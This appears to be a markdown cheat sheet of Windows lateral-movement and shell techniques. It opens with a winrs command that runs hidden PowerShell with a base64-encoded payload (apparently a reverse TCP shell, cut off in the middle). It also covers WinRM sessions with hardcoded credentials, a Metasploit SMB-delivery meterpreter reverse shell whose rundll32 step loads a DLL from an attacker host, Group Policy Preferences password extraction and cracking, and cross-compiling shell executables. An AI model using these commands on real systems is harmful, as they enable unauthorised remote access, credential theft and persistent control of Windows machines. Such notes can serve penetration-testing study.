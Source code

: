 
* Or remotely using winrs on windows

```powershell

winrs -r:pc_name -u:user101 -p:Password!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"

```

## WinRM

* attack from local  host

```powershell

$username = 'user101';
$password = 'Password!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

# Enter-PSSession is alternative
New-PSSession -ComputerName 192.168.xx.xx -Credential $credential

```


## Meterpreter
This shell works even on Windows 11 but needs MSF

1. SMB delivery: `use windows/smb/smb/delivery`
2. Payload: `set payload windows/meterpreter/reverse_tcp`
3. Configure all options in MSF and `exploit`
4. During exploit execution MSF will ask you to run following on target machine: `rundll32.exe \\attacker_ip\PJSK\test.dll,0`
5. Select active session
6. Get shell: `shell`


## Exposed GPP Password

* impacket-Get-GPPPassword to get password
* gp3finder.py to crack password


## Compiling Exploits for Windows on Kali

1. install mingw `apt install mingw-w64`
2. Compile for 64 bit

```
x86_64-w64-mingw32-gcc shell.c -o shell.exe
```
3. Compile for 32 bit
```
i686-w64-mingw32-gcc shell.c -o shell.exe
```
